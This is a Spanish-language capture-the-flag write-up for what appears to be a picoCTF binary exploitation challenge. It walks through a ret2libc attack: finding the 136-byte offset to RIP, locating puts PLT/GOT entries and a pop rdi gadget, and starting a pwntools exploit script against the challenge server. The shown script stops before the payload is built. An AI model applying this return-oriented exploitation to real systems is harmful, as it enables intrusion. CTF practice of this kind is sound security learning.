 ```
pwndbg> cyclic -l raaaaaaa
Lookup value: b'raaaaaaa'
136
```
Y el desplazamiento para llegar al RIP es 136.

Ahora, el binario tiene NX, asi que no podemos ejecutar una shellcode en el stack asi que podemos recurrir a tecnicas que usen ROP, como ret2libc, y lo mas clasico es sacar la direccion de ```system``` y ```/bin/sh```, el problema es que tenemos ASLR asi que podemos hacer uso de un clasico, hacer uso de la funcion ```puts``` para lekear valores, para esto tenemos que sacar la direccion de ```puts``` en PLT y como esta funcion espera un argumento, podemos usar ```puts``` pero ahora en GOT y otro clasico es usar ```setbuf``` en GOT pero en esta caso usare ```puts```, ademas como estamos en x64 tenemos que poner ```RDI``` como primer argumento en una funcion

### puts en PLT y puts en GOT

Para sacar puts en PLT podemos usar: ```objdump -d vuln_patched | grep puts``` y esto nos da:

```
0000000000400540 <puts@plt>:
  400540:	ff 25 d2 0a 20 00    	jmp    *0x200ad2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400769:	e8 d2 fd ff ff       	call   400540 <puts@plt>
  400891:	e8 aa fc ff ff       	call   400540 <puts@plt>
```
Y vamos a ocupar la ```400540```

Y para sacer puts en GOT podemos usar: ```objdump -R vuln_patched | grep puts```:

```0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5```

Y es la ```601018```

### pop rdi

Para sacar esto podemos hacer uso de ```ropper```, ```ROPGadget``` o radare con el comando ```/R```, en mi caso usare ropper con el comando ```ropper -f vuln_patched | grep 'rdi'``` y usaremos este ```0x0000000000400913: pop rdi; ret; ```

Esto lo hacemos ya que debemos de meter puts en GOT en rdi 

### Direccion de main

Otra cosa importante es la direccion de main, ya que con esta el programa sabra a donde regresar o no petara

```
readelf -s vuln | grep main                                                                                                                          ─╯
    63: 0000000000400771   305 FUNC    GLOBAL DEFAULT   13 main
```

### Ejecutando el exploit

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771
```